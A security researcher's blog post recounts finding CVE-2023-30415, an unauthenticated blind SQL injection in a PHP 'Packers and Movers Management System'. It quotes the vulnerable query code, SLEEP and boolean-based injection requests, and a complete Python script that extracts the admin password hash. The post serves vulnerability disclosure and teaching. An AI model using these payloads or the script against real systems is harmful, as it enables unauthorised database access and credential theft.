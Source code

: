 ```yaml
---
layout: post
title: Getting my first CVE
description: The frustrations and thrills of open source code review.
summary: An OSWE victory lap.
tags: reflections tutorials
---
```



After passing my OSWE in March and dealing with some long neglected life issues, I decided to put my skills to the test and hunt for a CVE. It felt like a rite of passage for OSWE passers. 

**Recon**

My first approach was to find projects written in languages that are easy to make mistakes in but that are also very popular. PHP is the prime candidate here, so I looked up php open source projects on google and quickly discovered sourcecodetester.com among the first results.

![](/assets/images/sourcecodetester.png)

I started perusing through random projects and downloading them locally to run them. This approach netter me a substantial number of critical findings, but whenever I wanted to report them to MITRE, I would find out that they were already assigned a CVE. Nonetheless, it was a nice confidence booster that I was able to find those vulnerabilities so easily. 

This meant I had to up my game a bit. I had to look for projects that were at least somewhat secure. After a more careful analysis, I found the [Packers and Movers Management system](https://www.sourcecodester.com/php/15360/packers-and-movers-management-system-phpoop-free-source-code.html)

What caught my attention on this project was that the admin pages called in a header function that itself was checking for session. 


![](/assets/images/header.png)

![](/assets/images/session.png)


This was good news, it meant that whoever designed this took some authorization considerations into account.

**Exploit Discovery**

I took a shortcut here, and instead of following user input paths like I normally do, I went straight to the source code and searched for "query" in an attempt to grab an easy win. 

![](/assets/images/query.png)

I found some results, but they were all behind the dreaded admin login, which would drastically reduce the impact of those findings.

However, upon a closer inpection, I quickly realized that the header function was only used for the direct subpages of /admin, but would often not be used deeper into the application.

As an example, /admin/index.php uses the header, but /admin/inquiries/view_inquiry.php does not and also uses an unsanitized query right at the start of the file!

![](/assets/images/inquiry.png)

I was able to locate this particular piece of code in the application.

![](/assets/images/page.png)

This meant that any input after the id parameter would pass unfiltered through these 2 lines:
```php
    $conn->query("UPDATE `inquiry_list` set `status` = 1 where id = '{$_GET['id']}'");
    $qry = $conn->query("SELECT **  from `inquiry_list` where id = '{$_GET['id']}'");
```

Since view_inquiry.php does not use the session header, it means that we can attack the id parameter without any need for authentication. 

Let's test it with a classic SLEEP payload:

```text
GET /mpms/admin/?page=inquiries/view_inquiry&id=4'+AND+(SELECT+1+FROM+(SELECT(SLEEP(2)))test)--+
```

![](/assets/images/sleep.png)

Looking at the response time, we can see it took just over 8 seconds, which happens because the id parameter is passed through two querries. That confirms our Blind SQL Injection.

Let's experiment with some more payloads and look if there are any differences in the content length.

```text
GET /mpms/admin/?page=inquiries/view_inquiry&id=4'+AND+(ascii(substring((SELECT+password+FROM+mpms_db.users+WHERE+id=1+LIMIT
+1),1,1))=48)--+ 
GET /mpms/admin/?page=inquiries/view_inquiry&id=4'+AND+(ascii(substring((SELECT+password+FROM+mpms_db.users+WHERE+id=1+LIMIT
+1),1,1))=47)--+ 
```

![](/assets/images/fuzz1.png)
![](/assets/images/fuzz2.png)

It does look like we get different content lengths when the exploit fails to execute. This means we can start working on an exploit right away.

**The Exploit**

The exploit is actually surprisingly simple. I ended up pruning the GET request of all uneccessary headers to get the request size down, wrote a for loop for the Blind SQL Injection and then a get_token function to store the token. Here it is:

```python
import requests

session = requests.session()

expected_size = 26845

def get_char(session, pos):
    for char in range(32, 126):
        sql_payload = f'\' AND (ascii(substring((SELECT password FROM mpms_db.users WHERE id=1 LIMIT 1),{pos},1))={char})-- '
        r = session.get('http://localhost:80/mpms/admin/?page=inquiries/view_inquiry&id=4' + sql_payload)
        #print(len(r.content))
        if len(r.content) == expected_size:
            return chr(char)
    print('Error at ' + str(char))
    exit()

def get_token(session):
    token = ""
    for pos in range(1, 33):
        token += get_char(session, pos)
    print("The Full MD5 password is " + str(token))    
    return token

get_token(session)
```

All that preparation for 25 lines of code. Let's run it and wait a few seconds:

![](/assets/images/exploit.png)

We now have our MD5 password. Passing it through an online hash cracker, we get the password admin123:

![](/assets/images/exploit.png)

Which is exactly the password used in the source page:


![](/assets/images/source.png)

**The Report**

With those proofs in hand, I used the CVE MITRE website to complete the form and report the CVE via [https://www.cve.org/ReportRequest/ReportRequestForNonCNAs](https://www.cve.org/ReportRequest/ReportRequestForNonCNAs).


After about a month, I received my CVE ID, CVE-2023-30415

![](/assets/images/cve.png)

I have emailed sourcecodester.com with a detailed explanation of the exploit and the proof of concept. Considerably way over 90 days have passed since, so this is me making it public as according to the reasonable disclosure procedure.

Overall, I had a lot of fun finding my first CVE, as trivial as it was. It helped me developed my own confidence and ability to quickly scan code repos for common mistakes. I have been busy with other interests lately but I have managed to secure a decent amount of AppSec and code review engagements at work, so I have been doing my best to keep learning and hone my skills even if I am not actively hunting for CVEs. I would recommend any aspiring AppSec hacker to have a go at it, even if you don't manage to secure a CVE, just finding some vulnerabilities will do wonders for your confidence.

